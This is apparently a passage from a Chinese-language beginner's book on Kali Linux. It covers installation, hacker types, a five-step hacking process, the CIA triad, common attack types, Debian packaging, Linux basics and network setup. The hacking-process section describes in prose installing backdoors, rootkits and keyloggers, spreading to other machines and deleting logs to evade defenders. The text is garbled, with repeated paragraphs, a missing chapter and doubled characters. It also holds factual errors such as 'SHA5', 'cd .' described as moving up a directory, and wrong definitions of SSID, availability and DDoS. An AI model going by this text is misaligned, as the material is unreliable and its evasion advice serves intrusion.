- 之后，它将从源加载安装程序组件。在我们的案例中，它是一个 ISO。向导还会配置网络。
- 完成后，你需要为你的系统选择主机名。这是一个单单词主机名。它会自动选择 Kali 作为主机名，我们建议你使用它，因为它将帮助你轻松跟随书籍内容。它还会要求你选择一个域名。主机名是可选的。
- 现在，你需要选择一个 root 密码。root 密码是必须的，你需要确保在继续之前选择一个密码。现在，选择一个难以猜到或破解的强密码。同时，确保你以后不会忘记密码，否则它将使你的 Kali Linux 安装无法访问。
- 它现在会要求你设置时区。
- 现在到了配置磁盘分区阶段。Kali Linux 或任何 Linux 安装都有不同的文件系统，因此，它们看起来可能与任何其他操作系统安装完全不同，尤其是 Windows 操作系统安装。为了确保你不需要做太多，你可以选择“引导 - 使用整个磁盘”选项。由于我们正在使用虚拟化，我们不需要担心分区，因为 `Hyper-V` 已经为你的操作系统安装分配了唯一的硬件位置。
- 一旦你选择了引导式分区，它会要求你选择分区方案。它包括：
  i. 所有文件都在一个分区中（针对新用户）
  ii. 独立的 `/home` 分区
  iii. 独立的 `/home`、`/var` 和 `/tmp` 分区
  由于你是 Kali Linux 的新手，我们建议使用第一个选项。
- 最后，它将为你提供所创建分区的概述。如果一切看起来对你来说没问题，现在是点击“完成分区并将更改写入磁盘”了。
- 现在选择“是”继续
- 现在你必须等待安装完成。

# ARM 安装

在本节中，我们将讨论如何进行 ARM 安装。ARM 代表高级 RISC 机器（Advanced RISC Machine）。ARM 设备示例包括嵌入式计算机、开发板、笔记本电脑等。

如果你想在 ARM 设备上安装 Kali Linux，就不能使用我们上面讨论的普通 Kali Linux 安装。对于这些设备，你需要配置内核以使加载程序胜出。

要开始，你需要使用针对 ARM 设备的 Offensive Security 脚本。检查链接下载脚本：https://gitlab.com/kalilinux/build-scripts/kali-arm

对于 ARM 设备，你还需要使用其他安装镜像(https://www.offensive-security.com/kali-linux-arm-images/)

一旦你下载了镜像和脚本，请按照步骤在基于 ARM 的设备上完成 Kali Linux 安装。

- 检查校验和与你下载的内容匹配。
  你可以使用校验工具完成。

## Kali Linux 特性

- 开源
- 免费使用
- 渗透测试工具
- 符合 `FHS` 标准
- 自定义内核
- 支持无线设备
- 多语言支持
- `GPG` 签名
- 可定制

## Kali Linux 适合你吗？

在我们学习 Kali Linux 之前，我们需要了解 Kali Linux 是否是你的正确选择。学习者经常选择了一个操作系统，结果却发现它并不适合自己。这本书是关于 Kali Linux 的，但作为学习者，你应该确保你确实需要 Kali Linux。

首先，Kali Linux 并不是为普通用户设计的。它是一个专门为渗透测试设计的操作系统。这意味着如果你想成为一个

无论你是安全专家或已经成为一名专家，学习或使用 Kali Linux 都是一个正确的选择。然而，对于进行其他开发工作或将其作为日常活动，它并不是一个好的选择。

让 Kali Linux 如此出色的另一个特点是它的生产价值。只有少数资深人士有权限更新该项目。你可以建议新的更改，但由这些资深人士决定是否进行更改。起初，开发者会对仓库进行签名，随后是整个团队的签名。作为用户，这意味着在添加或自定义软件包时你会受到限制。因此，如果你想添加一个包，你需要投入大量的研究和耐心才能完成。

那么，这意味着它适合你吗？为了确保你没有走错道路，请确保在以下情况下你**不要**选择 Kali Linux：

- 你以前从未用过 Linux 操作系统。
- 你不理解基础管理知识，或者完全没有操作系统经验。
- 如果你认为要将 Kali Linux 作为你的日常工具，用于浏览网页、看视频或游戏等日常活动。

此外，你应该学习在网络进行未经授权的渗透测试时相关的法律术语。如果你做的更改损坏了计算机或网络，可能会遇到麻烦。执法部门对此类活动的打击非常严厉，你应该提前了解，而不是在事后后悔。

然而，如果你是一个想要让每个人的计算都变得安全的人，那么 Kali Linux 适合你。你清楚如何使用渗透测试工具，并在进行活动时拥有适当的授权。

## 本章学到的知识

- Kali Linux 用于渗透测试。
- 它由 Offensive Security 管理。


它提供了一套强大的渗透测试和黑客攻击工具。

Kali Linux 的开发始于 2013 年 BackTrack Linux 项目。

它支持 Metasploit 项目。

它提供了一个完美的实验场，用于开发、执行和测试安全解决方案。

安装 Kali Linux 非常简单。你可以在 USB 方法（带或不带双系统启动）和虚拟化方法之间选择。

虚拟化最适合学习，因为你不需要经历双系统启动的问题。但如果你愿意，也可以安装独立的 Kali Linux。

Hyper-V 允许你直接将 Kali Linux 安装到 Windows 10 中。你需要拥有 Windows 10 1903 版本或更高版本。

安装过程需要遵循仔细的细致设置。

Kali Linux 的主要特性包括自定义内核、FHS 合规性、语言支持、免费使用、开源、自定义、GPG 签名等等！

# 第 2 章 开始黑客攻击

正如我们所学过的，Kali Linux 主要用于黑客攻击。这就是我们需要详细介绍这个主题的原因。我们需要学习什么是黑客攻击、黑客的类型以及你应该采取的路径。我们还将学习 Kali Linux 在让你成为安全专家方面扮演的角色。

## 什么是黑客攻击？

黑客攻击是黑客进行的一种活动，涉及对系统、服务或解决方案的修改。它可以以破坏性的方式进行，黑客可以获得授权或未经授权的访问。

然而，在通用领域，黑客攻击一直被视为坏事。它关乎从事犯罪活动，包括未经授权地收集信息或数据、破解安全系统，或从银行账户转移巨额资金。尽管它们是黑客攻击的例子，但它们并不能限制黑客的本质。

目前，黑客攻击可以与多种定义相关。我们可以定义黑客的最佳方式是“具有创意”。黑客攻击不仅是计算机相关的活动。它还是我们日常生活中的一种活动。如果你按照你想要修改或转换一个对象或过程——这可以被视为黑客攻击。

计算机语语中的黑客攻击是探索漏洞——使用它或修复它。网络安全世界运行在发现漏洞并解决漏洞之上，以便任何使用它的人都能安全。

黑客攻击是指寻找漏洞并解决漏洞，以确保使用该服务的人安全。计算机黑客现在已成为最重要的技能之一，它由认证专业人士执行。这也产生了不同类型的黑客，包括白帽、黑帽和灰帽。

你可能会对黑客和破解者（crackers）感到困惑。破解者是执行特定活动的黑客，例如获取授权的访问。

## 了解黑客类型

有三种类型的黑客，包括：

- 黑帽客（Black Hat）
- 白帽客（White Hat）
- 灰帽客（Gray Hat）

### 黑帽客

黑帽客是从事不道德行为的黑客。他们通常以勒索闻名。他们在没有适当授权的情况下访问并破坏系统。这是一个严重的犯罪，因为他们为了自己的成就而伤害他人。他们的方法定义了他们，他们使用不道德的。

到此还没有结束，黑帽客继续在黑市场（深网）出售他们获取的数据，或以此推进自己的工作。黑帽客大多以小组形式工作。而且，许多国家拥有自己的黑客，以便在统治世界方面获得优势。但在任何情况下，他们的行为都是无法辩护的。

### 白帽客（道德黑客）

白帽客的工作与黑帽客完全不同。他们在方法上是合道德的，从进行未经授权的访问。他们更有创意，并且如何以不同的方式访问网络或计算机。

他们利用知识寻找漏洞或缺陷并修复它们。如果他们不知道如何修复漏洞，他们会直接通知服务、产品或解决方案的所有者。

白帽客仅在伦理上不同。他们使用的方法与黑帽客相同。他们的工具相同，技能也可能是相同的。

成为白帽客并不容易，因为这在技术和伦理方面都需要大量的耐心和训练。此外，成为白帽客没有单一路径。有很多黑帽客在职业生涯中变成了白帽客。反之亦然，黑客会从白帽变为黑帽。此外，白帽客通常被称为“渗透测试员”。他们的工作是在被利用之前发现网络、机器或解决方案中的漏洞。几乎每家科技公司都有自己的渗透测试团队，他们希望自己的产品尽可能安全。

### 灰帽客

灰帽客是介于白帽客和黑帽客之间的黑客。他们同时使用黑帽和白帽的技术。灰帽客也倾向于善良的一面，但在方法上并非 100% 投入。

灰方法主要被想要提高自己的学习者使用。他们经常做一些不道德的事情，但也想确保他们通知公司漏洞。

他们乐于解决问题，甚至如果他们报告了漏洞，公司也愿意支付报酬。当有人发现漏洞并报告给公司时，公司会提供赏金。灰帽黑客也不倾向于窃取数据或赚钱。

此外，成为一名灰帽黑客完全是自愿的，你仍然可以创建自己的实验场来测试和提高你的技能，而不是在别人的网络或计算机上尝试你的技能。

## 黑客行为的后果

破解可能是一件很有趣的事，特别是对于初学者来说，但它也伴随着后果。未经授权访问的后果取决于具体情况。在很多情况下，黑客一旦一旦被捕获，将根据法律受到起诉。在黑客方面，法律也并不轻。取决于所进行的破解行为，刑事指控可能会非常严重。例如，如果你破解了金融机构，你将面临严厉的处罚，包括监禁和支付巨额罚款。这样做是为了震阻黑客进行不道德的破解行为。

但并不是所有的黑客都是坏的。白帽黑客或伦理黑客是优秀黑客的核心。也存在白帽黑客被发现进行不道德破解行为的情况。在这些情况下，他们的惩取决于他们的行为以及他们对社区所做的贡献。

## 受害者

如果你打算使用 Kali Linux 进行渗透测试，你还应该了解你行为的受害者。如果你处于正确的道路上，就不需要担心，但如果你尝试进行不道德的行为会怎样？谁会成为你的受害者？

受害者可以是互联网上的任何人。有数百个案例显示黑客破解个人照片并将其发布在社交媒体上，让当事人感到尴尬。黑客还可以勒索该个人。事实上，黑客进行的首要活动是身份盗用。他们破解人的账户并复制其所有的照片和信息。

一旦完成，他们就会创建一个类似的个人资料并试图冒充该个人。另一个常见的活动是进行信用卡盗窃和未经授权的支付。

# 本章学到的知识

- 破解是一个在未经授权的情况下，从系统、进程或解决方案获取访问权限或窃取数据的过程。
- 破解也可以被定义为破坏事物并获取访问权限的创意过程。
- 黑客分为三种，包括黑帽黑客、白帽黑客和灰帽黑客。
- 黑帽黑客是选择不道德路径的黑客。他们的主要目标是利用漏洞窃取数据或获取系统访问。
- 白帽黑客（伦理黑客）致力于保护系统、解决方案和服务免受黑客的攻击。他们遵循伦理路线。
- 灰帽黑客是黑帽和白帽黑客之间的中立路径。通常，他们破解系统是为了告知组织漏洞以便进行修复。
- 如果你选择不道德的道路，就会产生破解后果。始终警惕这些后果。

受害者可以是任何因为黑客的行为而受到损害的人。

# 第 3 章：破解过程

Kali Linux 是一种黑客工具。如果你选择 Kali Linux，我希望你现在知道你将用它来进行破解或渗透测试。这就是为什么你需要了解破解过程。破解过程可以适用于大多数破解尝试，并可以作为一个框架使用。这些步骤将引导你变得更擅长破解（无论是伦理的还是不道德的）。

破解过程中包含的五个关键步骤包括：

- 信息收集（侦察）
- 扫描（Scanning）
- 获取访问权限（Gaining Access）
- 维持访问（Maintaining Access）
- 掩盖踪迹（Covering Tracks）

让我们详细介绍每一个步骤。

## 信息收集（侦察）

你将做的第一步是信息收集。它是破解过程中最重要的部分。而且在大多数情况下它会被忽略。信息收集过程被称为侦察。在这一步中，你的工作是收集尽可能多的信息——你拥有的有用信息越多，破解过程成功的机会越大。你在第一步中收集的信息将对后续工作至关重要。

在这一步中，你收集的信息。你收集的信息将帮助你完成接下来的步骤，包括扫描、获取访问权限、维持访问和掩盖踪迹。

在这一步中，你可能需要了解系统信息。在完成这一步后，你将能够了解整个网络。作为黑客，你可能需要了解哪些信息是有用的。在技术方面，你可能有很多工具可供选择。

## 侦察的类型

侦察可以分为两种类型。为了让你理解概念，我们将逐一介绍它们。

### 被动侦察

在被动侦察中，你的工作是不与系统直接交互，而是被动地获取。你可以利用 Google 等工具的优势。这将帮助你了解公司、他们使用的技术以及其他重要细节。通过这种方式，你可以发现漏洞。

### 主动侦察

主动侦察是被动侦察的完全相反。它要求与系统进行主动交互。目标需要被明确定义。但是主动信息收集比被动的更具挑战性。一种方法是查阅他们的文档（如果有的话）。

通过主动侦察，你需要执行：

- 检查系统是否响应外部 ping
- 如果系统不响应 ping，你需要寻找其他与系统交互的方法
- 直接与系统交互，创建账户、访问支付系统等

## 扫描

破解过程的下一步是扫描。扫描阶段涉及大量工具的使用。扫描工具将帮助你进一步完善从侦察阶段获得的信息。作为黑客，你需要使用各种工具，包括端口扫描器、ping 工具、扫描器和网络映射工具。网络扫描非常重要，因为它将帮助你获取系统的访问权限（下一步）。

了解开放端口列表也是至关重要的。它还会让你了解更多信息，包括正在使用的操作系统。此外，响应类型取决于操作系统或平台上开放的响应端口。因此，如果你正在尝试访问基于 Linux 的操作系统，你将得到不同的响应。

扫描完成后，你将拥有以下内容：

- 更多重要的信息（主要是技术性的）
- 准确的网络地图
- 开放端口
- 使用的操作系统
- 寻找任何可能的漏洞


此外，你还需要确保将所有信息都汇聚在一个地方。通过这些操作，你将能够理解这些数据，并移除或分离你认为不那么重要的数据。

# 获取访问

在完成所有的信息收集工作后，我们现在准备好获取目标系统的访问权限。到目前，我们已经掌握了大量的信息。这些信息将帮助我们获取访问。我们的信息包含了网络拓扑、日志信息等。

我们的信息包含了网络映射、日志信息等。

目标是利用漏洞来获取系统的访问权限。

在整个黑客过程中，保持隐蔽性并不被发现是关键的。如果你成功利用漏洞，你就可以进入系统。

在整个黑客过程中，能够有效地隐藏自己的身份不被发现是非常重要的。

此外，为了不被发现，你需要删除或修改日志，以确保信息不被泄露。

在整个黑客过程中，保持隐蔽性至关重要。此外，为了不被发现，你需要清理日志，以确保信息不被泄露。

在维护过程中，你可以使用的方法包括：

- `拒绝服务攻击（Denial of Service）`
- `会话劫持（Session Hijacking）`

一旦你获取了访问权限，你就可以在系统内进行操作。

为了能够长期访问系统，你需要安装后门（`Backdoor`）或木马（`Trojan`）。此外，`根内核（Rootkit）`也能帮助你保持对系统的访问。

另一种方法是感染网络中的其他应用程序和机器。感染的机器越多，你维持访问权限的机会就越大。但是，操作时不要过头。

一旦建立访问，你现在还需要监控电子邮件、系统登录信息和其他内容。你还可以监控网络流量并根据需求进行修改。从特定终端或机器获取信息的最佳方法是给其安装键盘记录器（`Keylogger`），这样你就可以获取特定账户的进一步访问权限，对网络拥有更多的控制权。

目标是尽可能在系统中隐藏自己。你需要采取稳健的方法。最初，你可以简单观察系统的运行情况。一旦你对系统/网络的原理有了信心，就可以渗透环境。

# 清除痕迹

黑客过程的最后一步是清除痕迹。作为黑客，你不希望被暴露，尤其是在进行黑黑客攻击时。我们已经讨论过可能严严重处罚，如果你正在进行黑黑客攻击，你将面临风险。为了长远保护你的存在，你需要隐藏痕迹，或者至少清除它们，以便无人知道曾访问过系统。

主要目标是躲避维护系统的 IT 专业人员。你应该像白帽黑客一样思考，防止他们发现你的技术。

如果白帽团队或 IT 专业人员发现有人未经授权访问系统，他们就会将你踢出系统，让你失去对系统的访问权限。

在情报领域，他们在寻找保护国家利益的信息的同时，也要保护自身的敏感信息。

## 学习 CIA 三要素 (`CIA Triad`)

网络安全的核心是 `CIA` 三要素。这是一个保持网络安全生态系统正常运行的基础概念。如果没有 `CIA` 三要素中的任何一个元素，就永远不存在安全的系统。

这三个要素如下：

- 机密性 (`Confidentiality`)
- 完整性 (`Integrity`)
- 可用性 (`Availability`)

如果我们要简要解释这三个要素，那么机密性可以解释为一组信息访问规则；完整性与数据的准确性和可靠性有关，而可用性则确保只有授权人员才能可靠地访问数据。

让我们在下面详细介绍。

### 机密性

`CIA` 三要素的第一个元素是机密性。换句话说，它与隐私有关。通过维护机密性，系统确保不惜代价地维护用户的隐私。它还确保所有者可以访问敏感信息，而恶意攻击者无法访问。

机密性规则根据数据类型和所有者状态而不同。分类是根据数据落入错误的人手中后可能造成的损害程度来进行的。

机密性很难实施。为了让它发挥作用，人们需要接受培训。这种培训确保了与数据相关的安全风险降低。最大的安全威胁之一是人类本身。如果他们没有经过培训，就更有可能留下漏洞供黑客利用。他们需要学习如何设置强密码以及如何保持密码安全。这些最佳实践还将确保识别社会工程学企图。社会工程学方法试图诱导人们放弃自己的信息，包括密码。

在技术方面，机密性是通过使用密码学来维护的。强化的加密输入确保了用户名和密码不会被黑客在网上泄露。公司需要安全地存储数据，而这使得它变得更具挑战性——其他类型的验证方式，包括安全令牌、生物识别验证、软令牌等。

### 完整性

`CIA` 三要素的第二个元素是完整性。它关乎数据在整个数据生命周期中的可靠性、准确性和一致性。这意味着数据不应被未经授权的访问或恶意攻击者修改或更改。大多数情况下，如果机密性被破坏，数据的完整性也会被破坏。

为了维护完整性，必须使用访问控制来确保只有授权用户才能访问数据。此外，还需要通过各种方法对完整性进行检查和验证，包括加密校验和哈希值等。

用于检查数据完整性的某些算法包括 `SHA1`、`SHA2`、`SHA3`、`SHA5` 和 `MD5`。

### 可用性

最后一个特性是可用性特征。存储的数据应该随时可用。不可用的数据是没用的。为了实现 100% 的可用性，硬件制造商需要维护他们的硬件，并在发生任何问题时立即修复。他们还需要关注软件或所使用的操作系统，以便以最好的可能的方式向用户提供请求的数据。

另一个大要求是提供足够的带宽以获得最佳的可用性。仅仅具有可用性是不够的，还需要在合理的、定义的时间内向用户提供数据。

其他需要维护的关键方面还包括 `RAID`、冗余、故障转移等。适当的灾难恢复系统可以确保数据不会丢失。它还确保在不同场景下数据传输不受阻碍。

在拒绝服务（`DoS`）攻击期间也需要维护数据可用性。最好的方法是拥有适当的防火墙和代理服务器，以便服务在最坏的情况下仍工作。

提供数据可用性的两种方法是冗余备份。

## CIA 三要素带来了什么挑战？

尽管 `CIA` 三要素看起来是一个很容易实现的东西，但实际上情况恰恰相反。它使用了大数据，其他技术使得 `CIA` 范式成为一项难以维护的任务。大数据的核心是从各种数据源收集重要数据。这会增加不必要的成本并使维护 `CIA` 三要素变得更加困难。

其他技术也带来了各自的问题。例如，物联网（`IoT`）带来了新级别的挑战。通过不同的媒介、接口和网络连接不同的设备本身就是一个挑战。现在，保护数据的机密性、完整性和可用是一个更大的挑战。物联网没有其他技术那样安全。

## 不同类型的网络威胁

网络威胁是网络安全的核心。作为 `Kali Linux` 用户，你还需要学习相关术语。黑客热于使用任何形式的网络攻击来获取系统的访问。为了确保你了解这些攻击，让我们在下面列出。

## 恶意软件 (`Malware`)

最常见的网络攻击之一是使用恶意软件。它是一种用于获取系统访问的软件。它也可以在所有者不知的情况下对系统造成伤害。

### 社会工程学 (`Social Engineering`)

社会工程学是一种非技术威胁，人员试图通过社交技巧进行伪装并收集信息。它关乎心理操纵他人。

### 高级持续性威胁 (`Advanced Persistent Threats`)

高级持续性威胁被未经授权的用户用于更长时间地维护对网络或系统的访问。

## 勒索软件 (`Ransomware`)

勒索软件是一种新型恶意软件。它主要用于向受影响的计算机索要赎金。勒索在目标机器感染恶意软件后开始。该软件可以锁定系统中的重要文件，然后要求金钱以解锁这些文件。许多勒索软件会将用户完全锁定在系统之外。即使用户同意支付金额，黑客也可能在系统中留一个后门，以便他能够访问。

## 网络钓鱼 (`Phishing`)

我们想要讨论的最后一种网络攻击是网络钓鱼。这是一种带有虚假邮件的常见攻击。这些邮件被用于收集关键信息，包括信用卡号或登录信息。防止这种攻击的方法是在邮件服务中建立适当的过滤机制。

其他类型的网络攻击包括：

- 中人攻击 (`MITM`)
- `SQLi` 注入攻击
- 拒绝服务 (`DoS`) 攻击
- `XSS` 跨站脚本攻击
- 分布式拒绝服务 (`DDoS`) 攻击

除了上述攻击，还有其他网络攻击。攻击的类型取决于黑客试图破解的设备和网络。

让我们尝试简单地解释这些攻击类型。

### 中人攻击 (`Man-in-the-Middle`, `MITM`)

这是一种常用于破解设备的流行攻击。在这种攻击中，第三方恶意行为获取了在两个双方之间通信的权限。通过这样做，它可以窃取信息并伤害害者。

## `SQLi` 攻击

在 `SQLi` 攻击中，黑客试图在数据库上执行恶意的 `SQL` 语句。如果黑客成功执行，他们就能获得数据库或系统的访问权限。有很多方法可以保护数据库免受这种常见的攻击。

## 拒绝服务 (`DoS`) 攻击

这也是目前最常见的网络攻击之一。它通过阻塞网络或服务来阻止服务的正常运行。大量的机器被用来执行 `DoS` 攻击。`DoS` 攻击的主要目标是中断服务并揭示系统的弱点。

当机器发起攻击时，这被称为分布式拒绝服务（`DDoS`）攻击。

## `XSS` 跨站脚本攻击

跨站脚本攻击（`XSS`）是一种 Web 应用程序漏洞，在网页中注入了客户端脚本。

## 为什么网络安全如此重要？

网络安全的重要性在我们社会中至关重要。每个组织都需要对其系统提供适当的安全保障。如果没有这些，它们将会分崩离析。每家机构还需要基础的网络安全保护，以免成为可能想要勒索或对其造成伤害的黑客的受害者。

网络安全可以被视为一种基础设施——一种作用于每一个设备和位置的保护层。在不同系统的世界里，统一的系统总是运行良好的。然而，整合工作需要努力，这可能会留下一些漏洞。

另外一点是，任何事物都不可能是100% 安全的。这意味着网络安全领域是一个不断增长的领域。新技术和演进几乎每年发生，这使得网络安全专家更难让工作变得安全。

## 本章学到的知识


网络安全涉及保护组织、政府、医疗机构和其他机构免受网络攻击和恶意行为者的侵害。

网络安全的核心是 CIA 三要素模型。它包括机密性、完整性和可用性。

机密性涉及用户的隐私。它的核心是不惜一切地维护用户的隐私。它保护敏感信息，且在任何系统中都难以实现。

完整性是 CIA 三要素的第二个要素，处理数据生命周期期间的数据准确性、一致性和可靠性。

可用性是 CIA 三要素的第三要素，核心是在任何条件或场景下确保系统或数据的 100% 可用。

CIA 三要素带来了许多挑战。

网络威胁有很多类型，包括恶意软件、社会工程学、高级持续性威胁（APT）、勒索软件、钓鱼。

其他常见的网络攻击类型包括 SQL 注入攻击、中间人攻击（MITM）、SQL 注入攻击、XSS 跨站脚本攻击、拒绝服务（DoS）攻击。

网络安全攻击之所以非常重要，因为它涉及到多个组织、系统以及互联网繁发展的整体生态系统的安全。

## 第 5 章：学习 Debian 关系

Kali Linux 是一个正统的 Debian 衍生版。Kali Linux 的工作始于2012年。学习它与 Debian 的关系很重要，因为这能让你理解它的重要性，并理解它是如何运作的。

具体来说，它是基于 `Debian Testing`（测试版）构建的。这意味着你在 Kali Linux 中看到的软件包来自 Debian 仓库——并非全部，但大多数都是如此。然而，不要产生 Kali Linux 依赖于 Debian 的误解。在软件包选择和分发方面，Kali Linux 有它自己的基础设施。用户可以选择任何他们想要的东西，并拥有完全的自由。

### 软件包如何从 Debian 流向 Kali Linux

正如我们已经提到的，软件包从 Debian 发行版流向 Kali Linux。这一过程非常规范。

Debian 每天由贡献者更新。他们更新软件包，并确保软件包更新到 `Debian Unstable`（不稳定版）发行。一旦软件包上传，它们就会移动到 `Debian Testing` 发行版。在这里，所有的 Bug 都会移除，然后软件包就可以发布。

`Debian Testing` 是 Kali Linux 的最佳实验场，因为它们的目标是一致的。

Kali Linux 的贡献者通过两个步骤包含这些软件包。

第一是将 Kali 包强制注入到 `Kali-dev` 仓库。这可能会破坏仓库，但这是预期的结果。为了使其正常工作，下一步是确保新包与旧包一起重新编译以使其正常运行。

Kali Linux 还有一个名为 `Kali-rolling` 的发行版，用户可以用它跟踪对 `Kali-dev` 发行版进行的所有更改。最终目标是确保在软件包迁移之前满足所有依赖关系。

### 如何管理 Debian 的差异？

差异主要通过减少分支包（forked package）的数量来管理。这样做是为了确保 Kali 的独特特性被正确实现。上游软件包被少量修改。如果你想了解 Debian 和 Kali 软件包之间的差异，可以查看它们的 [Kali Package Tracker](https://pkg.kali.org/derivative/kali-dev/)。

### 本章学到的知识

- Kali Linux 和 Debian 之间关系紧密。
- 软件包从 Debian 流向 Kali Linux。
- Kali Linux 有一个名为 `Kali-rolling` 的发行版，处理对发行版包所做的更改。

如果软件包良好，它们就会被移动到主 Kali 发行版中。

## 第 6 章：复习 Linux 基础

作为读者，你可能对 Linux 并不了解。如果你想精通 Kali Linux，首先需要熟悉 Linux。学习 Linux 并不难，如果你学习了它，就能理解互联网的大部分，因为服务器、网页和其他服务都使用 Linux 服务器来运行。

### 理解 Linux

我们可以将 Linux 定义为一种操作系统，但实际上，它仅仅是一个操作系统内核。内核是文件、库和特征的集合，使操作系统能够工作。它充当软件和硬件之间的协调者，并为你提供探索计算机的手段。内核负责管理用户、文件系统进程、硬件和权限系统。所有与系统相关的活动运行在 0 环（`ring zero`），这也称为内核空间。与相反，Linux 还有用户空间，用户空间被定义为除内核活动外的一切活动所发生的空间。

#### 内核驱动硬件

内核的首要任务是确保硬件按预期工作。它控制硬件组件并对其进行配置。所以，如果你插入一个 USB 驱动器，是内核识别硬件并使其准备好使用的。内核的另一项工作是让硬件对高层软件可用。

如果你使用多个磁盘，那么一个磁盘被分配为 `/root`，而其他磁盘则被命名为 `ext2`、`ext3` 等。

### 进程管理

内核同样配备了进程管理功能。任何运行状态下的程序都称为进程。进程确保程序实例按预期运行。为了实现这一点，它使用了内存。在这种情况下，内核确保其创建并跟踪该进程。内存管理也由内核完成，确保系统有足够的内存进行最佳工作。一旦分配了内存，它就会将可执行文件加载到内存并开始运行。为了确保能够跟踪和管理进程，还会为进程分配一个进程标识符 (`PID`)。

Linux 是一个多任务操作系统。这意味着它具备管理同时运行的应用程序的功能。它简单地管理每个进程的内存和处理器时间分配，给人一种多任务的错觉。通常情况下，它一次只运行一个程序。尽管如此，它在后台管理多个处于休眠阶段的进程。一旦用户切换到后台进程，它就会为该进程重新分配资源。

## 命令行：与交互交互界面

命令行是你与系统交互的方式。有不同类型的终端，但 Kali Linux 使用 GNOME 终端。要访问终端，你需要按下 `CTRL + ALT + T`。你也可以在 Kali Linux 的搜索栏中输入“terminal”来访问终端。

一旦启动终端，你现在就可以在上面使用命令了。让我们从 `ls` 命令开始。

`ls` 命令列出运行所在位置的所有文件和目录。

如你所见，你需要向命令行提示符提供输入。完成后，`shell`（一个命令行解释器）将执行输入。在 Kali Linux 中，默认 `shell` 是 `Bash` 壳。`Bash` 代表 Bourne Again Shell（再次 Bourne 壳）。如果你在开头看到 `$` 或 `#`，意味着 `shell` 正在等待你的输入。

### 命令行基础

让我们来看一下常用的 Linux 命令。这些命令将让你能够优化地使用操作系统。

- `pwd` → 显示当前工作目录
- `cd [directory_name]` → 用于切换目录
- `cd .` → 返回上一级目录
- `cd ..` → 返回上级目录
- `ls` → 列出文件和文件夹
- `mkdir [directory_name]` → 创建新目录
- `mv [directory_name]` → 移动目录
- `rmdir [directory_name]` → 删除目录

我还会建议你阅读一些关于 Linux 命令行的免费在线教程。那里有很多值得花时间的优质教程。始终记住，如果没有适当的 Linux 知识，几乎不可能学习 Kali Linux，更不用说掌握它。

### 文件系统层次结构标准

正如我们讨论过的，Kali Linux 使用了名为文件系统层次结构标准（FHS）的统一文件系统。为了确保你能有效使用 Kali Linux OS 或任何发行版，FHS 知识可以帮助你熟悉操作系统。通过这些知识，你可以轻松在 Linux OS 中移动，并知道每个目录的目的和用途。让我们将它们列如下：

- `/boot/`: 包含启动过程的文件
- `/dev/`: 包含设备文件
- `/bin/`: 包含基础程序
- `/etc/`: 配置文件
- `/opt/`: 第三方应用程序
- `/root/`: 管理员的个人文件
- `/home/`: 普通用户的个人文件
- `/media/`: 挂载点的移除设备
- `/mnt/`: 临时挂载点
- `/lib/`: 基础库
- `/run/`: 包含运行时数据，重启后删除
- `/srv/`: 系统上托管的服务器数据
- `/sbin/`: 包含系统程序
- `/tmp/`: 临时文件存储在这里
- `/var/`: 守护进程运行时使用的变量。可以包括缓存、队列、池和日志文件。
- `/sys/` 和 `/proc/`: 由 Linux 内核使用，不是 FHS 的一部分
- `/usr/`: 包含应用程序和架构相关的数据

#### 主目录

主目录是任何 Linux 操作系统的重要部分。然而，它不包含任何标准元素，但包含一些你应该了解的有趣内容。主目录通常被称为 `~` 波浪号。

为了了解主目录的值，你需要检查 `HOME` 变量。在大多数情况下，它被设置为 `"/home/user"`。

在主目录中，你可以找到应用程序配置文件。此外，主目录中的文件默认是隐藏的。隐藏文件以点 `.` 开头，表示它是隐藏的。如果你想看到包括隐藏文件在内的所有文件，你需要使用带有 `-a` 参数的 `ls` 命令。

```
ls -a
```

### 更多实用命令

此部分将进一步列出帮助你在 Linux 操作系统执行更多操作的实用命令。

### 修改和显示文件

要修改或显示文件，你需要使用 `cat` 命令。

## 第 7 章

Kali Linux 配置


你已经到了准备好进入 Kali Linux 操作系统系统的阶段。在本章中，我们将学习如何配置 Kali Linux。配置 Kali Linux 是非常重要的，因为这能让你充分发挥它的潜力。这包括配置网络、服务以及 Unix 用户组。

那么，让我们开始吧。

## 网络配置

在开始使用 Kali Linux 之前，你需要配置网络。网络配置将帮助你连接互联网。让我们看看如何配置网络。

## NetworkManager

Gnome 提供了一了一种交互式方式来访问不同的 Kali Linux 界面。`NetworkManager` 是一种配置网络的交互式方法。要开始使用，前往桌面视图右上角的菜单，在那里你可以看到一个下拉箭头。点击它，然后选择“有线连接”（wired connection）。从那里，你需要选择“有线设置”（wired settings）。

一旦点击了有线设置，你将看到以下窗口打开。



在这里你可以看到连接已经设置好了。使用 DHCP 来配置网络，包括 IP 地址、网关和 DNS 服务器。如果你想要高级设置，需要点击有线连接上的齿轮图标。从那里，你可以更改设置，包括 IPv4、IPv6、安全和身份。

事实上，你可以通过点击加号符号创建多个配置方案。这样，你可以在不同的设置之间切换。对于有线连接，你可以轻松地更改。如果你在无线网络上，则使用 SSID 设置来连接这些网络。SSID 代表公共标识符（public identifier）。

`NetworkManager` 利用 `PPPoE`（基于以太网的点点协议）和 `WWAN`（无线广域网）。

你还可以看到一个设置 VPN 的选项。VPN 与 `NetworkManager` 使用的协议配合。你可以通过插件连接不同类型的 VPN，包括 `OpenVPN`、`SSH` 等。

最后，你可以设置网络代理。默认情况下，它是关闭的（off）。你可以将其更改为手动或自动。

## 使用命令行配置网络

你也可以使用命令行配置网络。在某些情况下，你可能无法访问图形化桌面。

通过命令行配置网络包括使用 `ifupdown` 软件包。该包包含两个工具：`ifup` 和 `ifdown` 工具。这些工具是存储在 `/etc/init.d/networking` 目录下的 init 脚本的核心。该文件用于系统启动期间的网络配置。由 `ifupdown` 管理的设备可以使用 `ifdown` 工具进行注册和注销。

那么，如何操作呢？让我们来看 `ifupdown` 配置文件。在文件内部，你应该了解两个主要的派生项：

- `auto network-device`: 该指令启用 `ifupdown` 自动配置网络。它只在系统发现新网络时执行此操作。
- `iface network-device`: 该指令实际上用于配置接口。

`ifup` 用于激活网络接口，而 `ifdown` 用于禁用网络接口。当你启用一个网络时，它现在准备好接收和传输数据了。相反，禁用网络意味着它无法进一步接收或传输数据。

## 使用 systemd-networkd

在某些情况下，`ifupdown` 工具可能无法工作。这背后的可能是因为它太老了。毕竟，它是在 Debian 中使用的一个历史性工具。你可以使用名为 `systemd-networkd` 的新工具。它与 init 系统集成。这是一个新工具，并且不是基于 Debian 的。它非常轻量，并且易于集成到多个发行版中。

